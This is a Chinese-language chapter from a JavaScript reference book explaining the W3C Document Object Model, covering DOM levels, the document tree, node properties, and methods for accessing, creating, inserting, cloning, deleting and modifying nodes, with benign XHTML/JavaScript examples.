在上一章中，我们介绍了两大主要浏览器支持的各种对象模型。这些对象模型包括窗口、文档、表单、图像等对象。我们指出这些对象既对应于浏览器的功能，也对应于 (X)HTML 文档和样式表的功能。基于浏览器的对象模型的一个主要问题是，每个厂商决定向程序员暴露哪些功能以及如何暴露。为了对抗第 9 章讨论的浏览器不兼容性，W3C 提出了一个标准，该标准在 (X)HTML 或 XML 文档与呈现给程序员的文档对象层次结构之间进行映射。这个模型被称为 *Document Object Model*，简称 DOM（www.w3.org/DOM）。DOM 提供了一个应用程序编程接口（API），将整个网页（包括标签、属性、样式和内容）暴露给像 JavaScript 这样的编程语言。本章探讨了 DOM 的基本用途，从检查文档结构到访问常见属性和方法。我们将看到，精通 DOM 的一个关键部分是对 (X)HTML 和 CSS 的透彻理解。虽然 DOM 确实指向一个跨浏览器脚本问题减少的未来，但我们也看到浏览器厂商最近才真正开始拥抱 Web 标准，bug 仍然存在。本章的示例将在大多数 Web 浏览器的 5.x 代（或更高版本）中有效——但仍可能存在一些 bug，因此请谨慎操作。

**注意** *关于 DOM 的讨论确实要求你对 (X)HTML 和 CSS 非常熟悉。建议不熟悉的读者复习这些主题，例如，在配套书籍 Thomas Powell 所著的《HTML & XHTML: The Complete Reference 4th Edition》（Osborne/McGraw-Hill, 2003）中。*

### DOM 的种类

为了理清上一章介绍的对象模型混乱局面，W3C 定义了三个级别的 DOM，如下所列。

- **DOM Level 0** 大致相当于 Netscape 3.0 和 Internet Explorer 3.0 所支持的内容。我们称这种 DOM 为 *经典* 或 *传统* JavaScript 对象模型。这种形式的 DOM 在上一章中介绍过，支持常见的文档对象集合——**forms[]**、**images[]**、**anchors[]**、**links[]** 和 **applets[]**。
- **DOM Level 1** 提供了通过一组通用函数操作文档中所有元素的能力。在 DOM Level 1 中，所有元素都是暴露的，页面的任何部分都可以随时被读写。Level 1 DOM 提供了类似于 Internet Explorer 的 **document.all[]** 集合的功能，不同之处在于它是跨浏览器兼容且标准化的。
- **DOM Level 2** 提供了对页面元素的进一步访问，主要与 XML 相关，并专注于结合 DOM Level 0 和 Level 1，同时增加了对样式表访问和操作的支持。这种形式的 DOM 还增加了高级事件模型以及较少人知的扩展，如遍历和范围操作。不幸的是，除了样式表访问之外，许多 DOM Level 2 特性在常见 Web 浏览器中都不被支持，包括那些声称具有出色标准支持的浏览器。

**注意** *在本书撰写时，DOM Level 3 仍在开发中。这个版本的 DOM 将改进对 XML 的支持，包括添加对 XPath 的支持，扩展 Level 2 的事件模型（主要是为了支持键盘和设备事件），并添加允许在文件之间交换内容的功能（包括用于交换文档的加载和保存功能）。*

另一种看待 W3C 定义的 DOM 的方式是将 DOM 概念的各个部分分组为以下五个类别：

- **DOM Core** 指定了一个通用模型，用于将标记文档视为树结构进行查看和操作。
- **DOM HTML** 指定了核心 DOM 的一个扩展，用于 HTML。DOM HTML 提供了用于操作 HTML 文档的功能，并利用了与传统 JavaScript 对象模型类似的语法。基本上，这是 DOM Level 0 加上操作所有 HTML 元素对象的能力。
- **DOM CSS** 提供了以编程方式操作 CSS 规则所需的接口。
- **DOM Events** 为 DOM 添加了事件处理。这些事件范围从熟悉的用户界面事件（如鼠标点击）到当修改文档树部分的操作发生时触发的 DOM 特定事件。
- **DOM XML** 指定了核心 DOM 的一个扩展，用于 XML。DOM XML 解决了 XML 的特定需求，例如 CDATA 节、处理指令、命名空间等。


根据 DOM 规范，我们应该能够使用 **document.implementation.hasFeature()** 来测试 DOM 规范的某个特定方面是否可用，并传入一个表示该特性的字符串（如 "CORE"）以及一个表示版本号的字符串——目前版本号为 "1.0" 或 "2.0"。以下脚本演示了如何检测浏览器中的 DOM 支持情况。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml" lang="en">

<head>

<title>DOM Implementation Test</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<h1>DOM Feature Support</h1>

<hr />

<script type="text/javascript">

<!--

var featureArray =
 ["HTML","XML","Core","HTML","XML","Views","StyleSheets","CSS","CSS2","Events",
"UIEvents","MouseEvents","HTMLEvents","MutationEvents","Range","Traversal"];

var versionArray =
["1.0","1.0","2.0","2.0","2.0","2.0","2.0","2.0","2.0","2.0","2.0","2.0","2.0",
"2.0","2.0","2.0"];

var feature;
var version;

for (i=0;i<featureArray.length;i++)
{
 feature = featureArray[i];
 version = versionArray[i];

 if (document.implementation && document.implementation.hasFeature)
 {
  document.write(feature + " " + version + " : ");
  document.write(document.implementation.hasFeature(feature, version));
  document.write("<br />");
 }
}
//-->
</script>
</body>
</html>
```

你会注意到，图 10-1 中显示的结果表明，在最流行的浏览器 Internet Explorer 中，DOM 支持情况参差不齐。

### DOM 特性支持

- HTML 1.0 : true
- XML 1.0 : false
- Core 2.0 : false
- HTML 2.0 : false
- XML 2.0 : false
- Views 2.0 : false
- StyleSheets 2.0 : false
- CSS 2.0 : false
- CSS2 2.0 : false
- Events 2.0 : false
- UIEvents 2.0 : false
- MouseEvents 2.0 : false
- HTMLEvents 2.0 : false
- MutationEvents 2.0 : false
- Range 2.0 : false
- Traversal 2.0 : false

![img/59dcda80b33eac94d0b198d43d37e9b9_274_0.png]

**图 10-1：** 在 IE、Mozilla 和 Opera 中报告的 DOM 支持情况

实际上，情况比脚本显示的要好一些，但结果表明，除 Mozilla 外，大多数浏览器主要支持 DOM Level 1 和 DOM Level 2 的部分功能。因此，我们在本章中将重点讨论现代浏览器中普遍可用的内容。换句话说，我们将介绍 DOM Core、DOM HTML 和 DOM CSS。DOM Events 将在[第 11 章]中讨论。需要注意的是，虽然本章将使用 JavaScript，但 DOM 指定了一个与语言无关的接口。因此，原则上你可以在其他语言中使用 DOM，例如 C/C++ 和 Java。

理解 DOM 的第一步是学习它如何建模 (X)HTML 文档。

### 文档树

关于 DOM Level 1 和 Level 2，最重要的一点是你正在操作的是一个文档树。例如，考虑以下简单的 (X)HTML 文档：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>DOM Test</title>

</head>

<body>

<h1>DOM Test Heading</h1>

<hr />

<!-- Just a comment -->

<p>A paragraph of <em>text</em> is just an example</p>

<ul>

    <li><a href="http://www.yahoo.com">Yahoo!</a></li>

</ul>

</body>

</html>
```

当浏览器读取这个特定的 (X)HTML 文档时，它会以树的形式来表示该文档，如下所示：

![img/59dcda80b33eac94d0b198d43d37e9b9_276_0.png]

**图例**

- 文本节点
- HTML 元素
- <!--comment-->

请注意，树结构遵循了 (X)HTML 的结构化特性。**html** 元素包含 **head** 和 **body**。**head** 包含 **title**，而 **body** 包含各种块级元素，如段落（<p>）、标题（<h1>）和列表（<ul>）。每个元素又可以包含更多元素或文本片段。你可以看到，树中的每个项目（或者更准确地说，*节点*）对应于 HTML 或 XML 文档中允许的各种对象类型。DOM 定义了 12 种节点类型；然而，其中许多仅在 XML 文档中有用。我们将在[第 20 章]中讨论 JavaScript 和 XML，因此目前我们关注的节点类型主要与 HTML 相关，列于[表 10-1]中。

**表 10-1：与 HTML 文档相关的 DOM 节点**

| 节点类型编号 | 类型 | 描述 | 示例 |
|---|---|---|---|
| 1 | Element（元素） | 一个 (X)HTML 或 XML 元素 | `<p>...</p>` |
| 2 | Attribute（属性） | HTML 或 XML 元素的一个属性 | `align="center"` |
| 3 | Text（文本） | 被 HTML 或 XML 元素包含的文本片段 | `This is a text fragment!` |
| 8 | Comment（注释） | 一个 HTML 注释 | `<!-- This is a comment -->` |
| 9 | Document（文档） | 根文档对象，即解析树中的顶层元素 | `<html>` |
| 10 | DocumentType（文档类型） | 文档类型定义 | `<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">` |

在继续之前，我们需要介绍一些与文档树中节点关系相关的常用术语。*子树*是以特定节点为根的文档树的一部分。以下 HTML 片段（来自上一个示例）对应的子树为：

```
<p>A paragraph of <em>text</em> is just an example</p>
```

如下所示：

![img/59dcda80b33eac94d0b198d43d37e9b9_278_0.png]

在此树中建立了以下关系：

- **p** 元素有三个*子节点*：一个文本节点、**em** 元素和另一个文本节点。
- 文本节点 "A paragraph of" 是 **p** 元素的*第一个子节点*。
- **p** 元素的*最后一个子节点*是文本节点 "is just an example."。
- **em** 元素的*父节点*是 **p** 元素。
- 包含 "text" 的文本节点是 **em** 元素的子节点，但*不是* **p** 元素的直接后代。

这里使用的术语应该让你联想到家谱树。幸运的是，我们不需要讨论什么二代堂兄弟、隔了两代的亲戚之类的东西！下面的图表总结了你应该理解的所有基本关系：

![img/59dcda80b33eac94d0b198d43d37e9b9_279_0.png]

请确保你理解节点 *a*、*b* 和 *c* 都会将节点 1 视为其父节点，而节点 *d* 则将 *b* 视为其父节点。

现在我们已经掌握了基础知识，让我们来看看如何使用 JavaScript 和 DOM 在文档树中导航并检查各种 (X)HTML 元素。

### 访问元素

在 HTML 文档树中导航时，我们可以从树的顶部开始，也可以从我们选择的某个元素开始。我们将从直接访问元素开始，因为这个过程比较容易理解。注意下面所示的简单文档中，<p> 标签通过 id 属性值 "p1" 被唯一标识：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>DOM Test</title>

</head>

<body>

<p id="p1" align="center">A paragraph of
<em>text</em> is just an example</p>

</body>

</html>
```

由于该段落具有唯一标识，我们可以使用 Document 的 getElementById() 方法来访问该元素——例如，document.getElementById('p1')。此方法返回一个 DOM Element 对象。我们可以检查返回的对象以查看它代表什么类型的标签。

```
var currentElement = document.getElementById('p1');

var msg = "nodeName: "+currentElement.nodeName+"\n";
msg += "nodeType: "+currentElement.nodeType+"\n";
msg += "nodeValue: "+currentElement.nodeValue+"\n";

alert(msg);
```

将此脚本插入前面的文档后，结果如下所示：

![img/59dcda80b33eac94d0b198d43d37e9b9_280_0.png]


注意，**nodeName** 中保存的元素类型是 **P**，对应于定义它的 XHTML 段落元素。**nodeType** 为 1，对应于一个 **Element** 对象，如表 10-1 所示。然而，请注意 **nodeValue** 为 **null**。你可能期望其值为 "A paragraph of text is just an example" 或类似的包含 **<em>** 标签的字符串。实际上，元素没有值。虽然元素定义了树的结构，但大多数有趣的值是由*文本节点*持有的。文本节点作为其他节点的子节点附加，因此要访问 **<p>** 标签包含的内容，我们需要检查该节点的子节点。我们稍后将看到如何操作，但现在先研究任意标签可用的各种 **Node** 属性，总结在表 10-2 中。

**表 10-2：DOM 节点属性**

| DOM 节点属性 | 描述 |
|---|---|
| nodeName | 包含节点的名称 |
| nodeValue | 包含节点内的值；通常仅适用于文本节点 |
| nodeType | 保存对应节点类型的数字，如表 10-1 所示 |
| parentNode | 对当前对象父节点的引用（如果存在） |
| childNodes | 访问子节点列表 |
| firstChild | 对元素第一个子节点的引用（如果存在） |
| lastChild | 指向元素的最后一个子节点（如果存在） |
| previousSibling | 对节点前一个兄弟节点的引用；例如，如果其父节点有多个子节点 |
| nextSibling | 对节点下一个兄弟节点的引用；例如，如果其父节点有多个子节点 |
| attributes | 元素的属性列表 |
| ownerDocument | 指向包含该元素的 HTML **Document** 对象 |

**注意** DOM **HTMLElement** 对象还有一个 **tagName** 属性，它实际上与 **Node** 对象属性 **nodeName** 相同。

有了这些新属性，我们就可以相当轻松地“遍历”给定的示例。以下是遍历已知树结构的简单演示。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>DOM Walk Test</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<p id="p1" align="center">A paragraph of <em>text</em> is just an example

</p>


<script type="text/javascript">

<!--
function nodeStatus(node)
{
    var temp = "";

    temp += "nodeName: "+node.nodeName+"\n";
    temp += "nodeType: "+node.nodeType+"\n";
    temp += "nodeValue: "+node.nodeValue+"\n\n";

    return temp;
}

var currentElement = document.getElementById('p1'); // start at P
var msg = nodeStatus(currentElement);
currentElement = currentElement.firstChild;  // text node 1
msg += nodeStatus(currentElement);
currentElement = currentElement.nextSibling; // em Element
msg += nodeStatus(currentElement);
currentElement = currentElement.firstChild; //  text node 2
msg += nodeStatus(currentElement);
currentElement = currentElement.parentNode; // back to em Element
msg += nodeStatus(currentElement);
currentElement = currentElement.previousSibling; //back to text node 1
msg += nodeStatus(currentElement);
currentElement = currentElement.parentNode; // to p Element
msg += nodeStatus(currentElement);
currentElement = currentElement.lastChild; // to text node 3
msg += nodeStatus(currentElement);
alert(msg);
//-->
</script>
</body>
</html>
```

该示例的输出如图 10-2 所示。


上一个示例的问题在于，我们通过检查示例中的标记，提前知道了兄弟和子节点关系。如何导航一个不确定的结构呢？我们可以通过在遍历当前节点的任何子节点之前，先查询其 **hasChildNodes()** 方法，来避免查看不存在的节点。此方法返回一个布尔值，指示当前节点是否有子节点。

```javascript
if (current.hasChildNodes())
    current = current.firstChild;
```

当遍历到兄弟节点或父节点时，我们可以简单地使用 **if** 语句来查询相关属性，例如，

```javascript
if (current.parentNode)
    current = current.parentNode;
```

以下示例演示了如何遍历任意文档。我们提供了一个基本的文档供遍历，但你可以替换其他文档，只要它们格式正确：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>DOM Test</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
<h1>DOM Test Heading</h1>
<hr />
<!-- Just a comment -->
<p>A paragraph of <em>text</em> is just an example</p>
<ul>
    <li><a href="http://www.yahoo.com">Yahoo!</a></li>
</ul>
<form name="testform" id="testform" action="#" method="get">
Node Name: <input type="text" id="nodeName" name="nodeName" /><br />
Node Type: <input type="text" id="nodeType" name="nodeType" /><br />
Node Value: <input type="text" id="nodeValue" name="nodeValue" /><br />
</form>
<script type="text/javascript">
<!--

function update(currentElement)
{
    window.document.testform.nodeName.value = currentElement.nodeName;
    window.document.testform.nodeType.value = currentElement.nodeType;
    window.document.testform.nodeValue.value = currentElement.nodeValue;
}

function nodeMove(currentElement, direction)
{
  switch (direction)
  {
    case "previousSibling": if (currentElement.previousSibling)
                               currentElement = currentElement.previousSibling;
                             else
                               alert("No previous sibling");
                             break;
    case "nextSibling": if (currentElement.nextSibling)
                           currentElement = currentElement.nextSibling;
                         else
                           alert("No next sibling");
                         break;
    case "parent": if (currentElement.parentNode)
                      currentElement = currentElement.parentNode;
                    else
                      alert("No parent");
                    break;
    case "firstChild": if (currentElement.hasChildNodes())
                           currentElement = currentElement.firstChild;
                       else
                           alert("No Children");
                       break;
    case "lastChild":  if (currentElement.hasChildNodes())
                        currentElement = currentElement.lastChild;
                    else
                        alert("No Children");
                    break;
    default: alert("Bad direction call");
    }

    update(currentElement);

    return currentElement;
}

var currentElement = document.documentElement;

update(currentElement);

//-->

</script>

<form action="#" method="get">
    <input type="button" value="Parent"
           onclick="currentElement=nodeMove(currentElement,'parent');" />
    <input type="button" value="First Child"
           onclick="currentElement=nodeMove(currentElement,'firstChild');" />
    <input type="button" value="Last Child"
           onclick="currentElement=nodeMove(currentElement,'lastChild');" />
    <input type="button" value="Next Sibling"
        onclick="currentElement=nodeMove(currentElement,'nextSibling');" />
    <input type="button" value="Previous Sibling"
        onclick="currentElement=nodeMove(currentElement,'previousSibling');" />
    <input type="button" value="Reset to Root"
        onclick="currentElement=document.documentElement; update(currentElement);" />
</form>
</body>
</html>
```

此示例的渲染结果如图 10-3 所示。


**图 10-3：DOM 树遍历工具**


#### 其他访问属性

除了 **document.getElementById()** 之外，还有一些其他方法和属性可用于访问文档中的特定节点。其中特别有价值的是 DOM Level 0 提供的集合，用以支持传统的 JavaScript 实践。

##### getElementsByName()

鉴于许多较旧的 HTML 文档倾向于对 **<form>**、**<input>**、**<select>**、**<textarea>**、****、**<a>**、**<area>** 和 **<frame>** 等 HTML 元素使用 **name**（而非 **id**）属性，通过 **name** 来检索这些元素通常很有用。为此，可以使用 **Document** 的 **getElementsByName()** 方法。此方法接受一个字符串参数，表示要检索的元素的名称；例如：

```
tagList = document.getElementsByName('myTag');
```

注意，此方法可能返回的是一个节点列表，而不是单个节点。这是因为在传统 HTML 中，**name** 属性值的唯一性并未被严格强制执行，因此，例如一个 **** 标签和一个 **<form>** 元素可能共享相同的 **name**。此外，文档中不同表单中的 **<input>** 标签也可能具有相同的名称。与任何其他 JavaScript 集合一样，你可以使用 **length** 属性来确定对象列表的长度，并使用 **item()** 方法或普通的数组语法来遍历该列表；例如：

```
tagList = document.getElementsByName('myTag');

for (var i = 0; i < tagList.length; i++)

    alert(tagList.item(i).nodeName);
```

等价地，使用稍有不同的语法：

```
tagList = document.getElementsByName('myTag');

for (var i = 0; i < tagList.length; i++)

    alert(tagList[i].nodeName);
```

既然 **getElementsByName()** 方法返回具有相同 **name** 属性值的 HTML 元素列表，你可能会想知道为什么 **getElementById()** 不是这样工作的。回想一下，每个元素的 **id** 应当是一个唯一的值。简而言之，允许 **getElementById()** 的行为与 **getElementsByName()** 相同，只会助长已经造成足够多问题的松散 HTML 风格。如果你确实有一个无效的文档，因为多个元素具有相同的 **id**，那么 **getElementById()** 方法可能无法正常工作，或者可能只返回第一个或最后一个项。

在尝试此类示例时需要注意的是，不同的浏览器以略有不同的方式创建文档树。Opera、Netscape 6/7 和其他基于 Mozilla 的浏览器看起来会比 Internet Explorer 有更多需要遍历的节点，因为空白字符在树中被表示为文本节点，如下所示。


如果你使用这种树遍历来检查文档，并希望它在不同浏览器之间表现一致，这可能会导致一些困扰。可以对 Mozilla 风格的 DOM 树进行规范化，但在大多数情况下没有必要。由于大多数程序员倾向于使用 **getElementById()** 来检索特定节点，通常很少需要进行完整的树遍历。

### 常见的树遍历起点

有时无法直接跳转到文档树中的某个特定位置，有时候你需要从树的顶部开始，逐层向下遍历。**Document** 有两个属性为树遍历提供了有用的起点。**document.documentElement** 属性指向文档树中的根元素。对于 HTML 文档，这就是 **<html>** 标签。第二个可能的起点是 **document.body**，它引用树中对应于 **<body>** 标签的节点。你可能还有兴趣查看文件的 DOCTYPE 定义。这可以通过 **document.doctype** 来引用，但此节点是不可修改的。它可能看起来没有太多用处，但 **document.doctype** 的值确实允许你查看当前使用的是什么类型的文档。

### DOM Level 0：传统的 JavaScript 集合

为了向后兼容，DOM 支持一些在早期浏览器版本中流行的对象集合。这些集合构成了 DOM Level 0，大致等同于 Netscape 3 的对象模型所支持的内容。DOM Level 0 定义的集合如表 10-3 所示，可以通过数字索引（**document.forms[0]**）、关联名称（**document.forms['myform']**）或直接引用（**document.myform**）来引用。你也可以使用 **item()** 方法来访问数组索引（**document.forms.item(0)**），尽管这种做法并不常见，且在较旧的 JavaScript 中支持不佳；应尽量避免使用。

**表 10-3：DOM Level 0 集合**

| 集合 | 描述 |
|---|---|
| document.anchors[] | 页面中所有由 `<a name=""> </a>` 指定的锚点的集合 |
| document.applets[] | 页面中所有 Java 小程序的集合 |
| document.forms[] | 页面中所有 `<form>` 标签的集合 |
| document.images[] | 页面中所有由 `` 标签定义的图片的集合 |
| document.links[] | 页面中所有由 `<a href=""> </a>` 定义的链接的集合 |

你可能注意到表 10-3 中没有包含专有集合，如 **embeds[]**、**all[]**、**layers[]** 等。原因是 DOM 的主要目标是消除脚本对专有 DHTML 特性的依赖。然而，正如我们在本书中将看到的那样，旧习惯在 Web 上很难改变。

### 通用元素集合

在 DOM Level 1 下访问元素的最后一种方式是使用 **Document** 的 **getElementsByTagName()** 方法。此方法接受一个字符串参数，表示应检索的标签实例——例如，**getElementsByTagName('img')**。该方法返回文档中所有与传入参数类型相同的标签列表。虽然你可能会发现

```
allParagraphs = document.getElementsByTagName('p');
```

能正确运行，但实际上更正确的做法是将此函数作为现有元素的方法来调用。例如，要查找 **<body>** 标签内的所有段落，你应该使用

```
allParagraphs = document.body.getElementsByTagName('p');
```

你甚至可以在其他元素内查找元素。例如，你可能想找到一个特定的段落，然后查找其中的 **<em>** 标签：

```
para1 = document.getElementById('p1');
```

```
emElements = para1.getElementsByTagName('em');
```

我们稍后会看到一些使用这些方法来同时操作多个元素的示例。现在，让我们把注意力转向操作从文档中检索到的节点。

### 创建节点

既然我们已经知道了如何在树中移动和访问其元素，现在是时候讨论通过创建和插入节点来操作文档树了。DOM 在 **Document** 对象中支持多种与创建节点相关的方法，如表 10-4 所示。

**表 10-4：DOM 创建节点的方法**

| 方法 | 描述 | 示例 |
| :--- | :--- | :--- |
| **createAttribute(name)** | 为由字符串 *name* 指定的元素创建一个属性。对于已有的 (X)HTML 元素很少使用，因为它们具有可以直接操作的预定义属性名称。 | `myAlign = document.createAttribute("align");` |
| **createComment(string)** | 创建格式为 `<!-- string -->` 的 HTML/XML 文本注释，其中 *string* 是注释内容。 | `myComment = document.createComment("Just a comment");` |
| **createDocumentFragment()** | 创建一个文档片段，用于存放一组待处理的节点集合。 | `myFragment = document.createDocumentFragment();\nmyFragment.appendChild(temp);` |
| **createElement(tagName)** | 创建由字符串参数 *tagName* 指定类型的元素。 | `myHeading = document.createElement("h1");` |
| **createTextNode(string)** | 创建包含 *string* 的文本节点。 | `newText = document.createTextNode("Some new text");` |

> **注意** *DOM Level 1 还支持 **document.createCDATASection(string)**、**document.createEntityReference(name)** 和 **document.createProcessInstruction(target,data)**，但这些方法通常不用于 (X)HTML 文档。不过，如果浏览器能正确支持 CDATA 段来屏蔽 JavaScript，你可能会看到该特定方法的使用。*

如果你对 (X)HTML 有很好的掌握，创建节点就非常简单。例如，要创建一个段落，你可以使用

```
newNode = document.createElement('p'); // 创建一个段落
```

创建文本节点同样简单：

```
newText = document.createTextNode("Something to add!");
```

然而，我们需要将这些对象组合在一起并插入到文档中的某个位置，才能完成任何有意义的任务。目前，它们仅仅停留在内存中。


### 插入和追加节点

**Node** 对象支持两种实用的内容插入方法：**insertBefore(*newChild, referenceChild*)** 和 **appendChild(*newChild*)**。对于 **appendChild()** 方法，它作为你希望附加子节点的节点的方法来调用，这样做会将 *newChild* 引用的节点添加到其子节点列表的末尾。对于 **insertBefore()** 方法，你需要使用 *referenceChild* 来指定希望将 *newChild* 插入到哪个子节点之前。在实践中，你通常需要访问希望对其执行 **insertBefore()** 的节点的父节点，以获取必要的引用。让我们通过结合两个我们创建的节点来看看 **appendChild()** 方法的实际应用。

```
newNode = document.createElement('b'); newText = document.createTextNode("Something to add!");newNode.appendChild(newText);
```

此时我们会得到这个 (X)HTML 片段：

```
<b>Something to add</b>
```

然后，一旦我们找到方便插入的位置，就可以将此标记添加到文档中。例如，我们可能使用

```
current = document.getElementById('p1');current.appendChild(newNode);
```

将粗体文本片段追加到测试段落的末尾。下面的示例演示了 **insert** 和 **append** 更复杂的用法，它将用户输入的文本放置在指定元素的前面、内部和后面：

> **注意** *如果你以前从未见过 DOM 功能，强烈建议你自己尝试此示例。你可以手动输入代码，或在本书的支持网站 www.javascriptref.com 上在线找到它。*

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>DOM Adding</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function makeNode(str)
{
    var newParagraph = document.createElement("p");
    var newText = document.createTextNode(str);
    newParagraph.appendChild(newText);
    return newParagraph;
}

function appendBefore(nodeId, str)
{
    var node = document.getElementById(nodeId);
    var newNode = makeNode(str);
    if (node.parentNode)
        node.parentNode.insertBefore(newNode,node);
}

function insertWithin(nodeId, str)
{
    var node = document.getElementById(nodeId);
    var newNode = makeNode(str);
    node.appendChild(newNode);
}

function appendAfter(nodeId, str)
{
    var node = document.getElementById(nodeId);
    var newNode = makeNode(str);

    if (node.parentNode)
    {
        if (node.nextSibling)
            node.parentNode.insertBefore(newNode, node.nextSibling);
        else
            node.parentNode.appendChild(newNode);
    }
}

//-->
</script>
</head>
<body>
<h1>DOM Insert and Append</h1>
<hr />
<div style="background-color:#66ff00;">
  <div id="innerDiv" style="background-color:#ffcc00;"></div>
</div>
<hr />
<form id="form1" name="form1" action="#" method="get">
  <input type="text" id="field1" name="field1" />
  <input type="button" value="Before"
         onclick="appendBefore('innerDiv',document.form1.field1.value);" />
  <input type="button" value="Middle"
         onclick="insertWithin('innerDiv',document.form1.field1.value);" />
  <input type="button" value="After"
         onclick="appendAfter('innerDiv',document.form1.field1.value);" />
</form>
</body>
</html>
```

### 复制节点

有时你可能不想创建并插入全新的元素。相反，你可以使用 **cloneNode()** 方法来制作特定节点的副本。该方法接受一个布尔参数，指示副本是否应包含节点的所有子节点（称为 *深克隆*），还是仅包含元素本身。这里提供了一个演示节点克隆和插入的示例。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Clone Demo</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
<p id="p1">This is a <em>test</em> of cloning</p>
<hr />
<div id="inserthere" style="background-color: yellow;">
</div>
<hr />
<script type="text/javascript">
<!--
function cloneAndCopy(nodeId, deep)
{
  var toClone = document.getElementById(nodeId);
  var clonedNode = toClone.cloneNode(deep);
  var insertPoint = document.getElementById('inserthere');
  insertPoint.appendChild(clonedNode);
}
//-->
</script>
<form action="#" method="get">
  <input type="button" value="Clone"
         onclick="cloneAndCopy('p1',false);" /><br />
  <input type="button" value="Clone Deep"
         onclick="cloneAndCopy('p1',true);" />
</form>
</body>
</html>
```

> **注意** 由于 (X)HTML 的规则，空元素，特别是段落，可能不会改变文档的视觉呈现。原因是浏览器通常会最小化那些没有内容的元素。

### 删除和替换节点

能够从树中移除节点通常是很方便的。**Node** 对象支持 **removeChild(*child*)** 方法，该方法用于删除由传递给它的引用 *child* 指定的节点。例如，

```
current.removeChild(current.lastChild);
```

将删除由变量 *current* 引用的节点的最后一个子节点。请注意，**removeChild()** 方法返回被移除的 **Node** 对象。

```
var lostChild = current.removeChild(current.lastChild);
```

除了删除 **Node**，你还可以使用 **replaceChild(*newChild*, *oldChild*)** 方法来替换它，其中 *newChild* 是用于替换 *oldChild* 的节点。使用 **replaceChild()** 时要小心，因为它会销毁被替换节点的内容。下面的示例展示了删除和替换的实际操作：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Delete and Replace Demo</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/javascript">

<!--

function doDelete()

{

  var deletePoint = document.getElementById('toDelete');

  if (deletePoint.hasChildNodes())

   deletePoint.removeChild(deletePoint.lastChild);

}


function doReplace()

{

 var replace = document.getElementById('toReplace');

 if (replace)

 {

var newNode = document.createElement("strong");

var newText = document.createTextNode("strong element");

newNode.appendChild(newText);

replace.parentNode.replaceChild(newNode, replace);

}

}

//-->

</script>

</head>

<body>

<div id="toDelete">

 <p>This is a paragraph</p>

 <p>This is another paragraph to delete</p>

 <p>This is yet another paragraph</p>

</div>

<p>

This paragraph has an <em id="toReplace">em element</em> in it.

</p>

<hr />

<form action="#" method="get">

     <input type="button" value="Delete" onclick="doDelete();" />

     <input type="button" value="Replace" onclick="doReplace();" />

</form>

</body>

</html>
```

由于 Opera 和基于 Mozilla 的浏览器在其 DOM 树中包含空白符的事实，你可能会注意到，在前面的示例中，你必须比在 IE 中多按几次删除按钮才能达到相同的效果。尽管 DOM 是标准的，但我们看到，对标准解释的细微差别可能会产生重大后果。

### 修改节点

元素实际上不能被直接修改，尽管它们的属性当然可以。这可能看起来很奇怪，但当你考虑到元素包含文本节点时，这就完全有意义了。要产生更改，你实际上必须修改文本节点本身。例如，如果你有

```
<p id="p1">This is a test</p>
```

你会使用

```
textNode = document.getElementById('p1').firstChild;
```

来访问段落元素内的文本节点 "This is a test"。注意我们是如何将 **firstChild** 属性与方法调用链接在一起的。经验丰富的 DOM 程序员发现，像这样将方法和属性链接在一起有助于避免使用许多单独的语句来访问特定项目。一旦获取了 **textNode**，我们就可以使用其 **length** 属性（指示其包含的字符数）来访问其长度，甚至使用 **data** 属性来设置其值。

```
alert(textNode.length);                          // would return 14
```

```
textNode.data = "I've been changed!";
```

DOM Level 1 还定义了许多用于操作文本节点的方法。这些方法总结在 **表 10-5** 中。

#### 表 10-5：文本节点操作方法

| 方法 | 描述 |
|--------|-------------|
| appendData(*string*) | 此方法将传递的 *string* 追加到文本节点的末尾。 |
| deleteData(*offset*, *count*) | 从 *offset* 指定的索引开始删除 *count* 个字符。 |
| insertData(*offset*, *string*) | 从 *offset* 指定的字符索引开始插入 *string* 中的值。 |
| replaceData(*offset*, *count*, *string*) | 用 *string* 参数中的相应字符替换从 *offset* 开始的节点文本中的 *count* 个字符。 |
| splitText(*offset*) | 在 *offset* 给定的索引处将文本节点分成两部分。将分割后的右侧部分作为新文本节点返回，并将左侧部分保留在原节点中。 |
